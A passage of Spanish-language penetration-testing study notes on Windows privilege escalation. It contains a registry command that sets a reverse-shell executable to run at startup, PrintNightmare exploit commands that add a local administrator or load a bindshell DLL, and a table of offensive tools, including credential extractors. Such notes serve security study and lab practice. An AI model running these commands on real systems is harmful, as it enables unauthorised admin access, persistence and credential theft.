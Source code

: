 	Set-ItemProperty -Path 'HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run' -Name 'SystemExplorerAutoStart' -Value 'C:\Users\Public\revshell.exe'
	```

### Kernel exploits 
TODO: Mucha más información en [htb](https://academy.hackthebox.com/module/67/section/627). Herramientas como Winpeas deberían avisarnos de vulnerabilidades. Mostramos como explotar PrintNightmare como ejemplo
#### PrintNightmare
- Utilizamos la [siguiente poc](https://github.com/calebstewart/CVE-2021-1675) de JohnHammond
	```powershell
	Import-Module .\cve-2021-1675.ps1
	Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
	
	Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
	```
- O si queremos realizar cualquier otra acción con un archivo dll
	```powershell
	Import-Module .\cve-2021-1675.ps1
	Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
	```
### Vulnerable services
- Enumeración de los programas instalados (la idea es buscar con `google` o `searchsploit` si los programas instalado son vulnerables)
	```powershell
	 wmic product get name
	```
- Puede ser interesante también  ver si la aplicación instalada está corriendo (supongamos que la aplicación es `Druva`)
	```powershell
	get-service | ? {$_.DisplayName -like 'Druva*'}
	```
### DLL inyection
TODO: Tiene pinta de ser muy interesante, pero falta tiempo . Apuntes [aquí](https://academy.hackthebox.com/module/67/section/2501)
## Herramientas 
[Algunos binarios precompilados](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

|Tool|Description|
|---|---|
|[Seatbelt](https://github.com/GhostPack/Seatbelt)|C# project for performing a wide variety of local privilege escalation checks|
|[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)|WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)|
|[PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)|PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found|
|[SharpUp](https://github.com/GhostPack/SharpUp)|C# version of PowerUp|
|[JAWS](https://github.com/411Hall/JAWS)|PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0|
|[SessionGopher](https://github.com/Arvanaghi/SessionGopher)|SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information|
|[Watson](https://github.com/rasta-mouse/Watson)|Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.|
|[LaZagne](https://github.com/AlessandroZ/LaZagne)|Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more|
|[Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)|WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported|
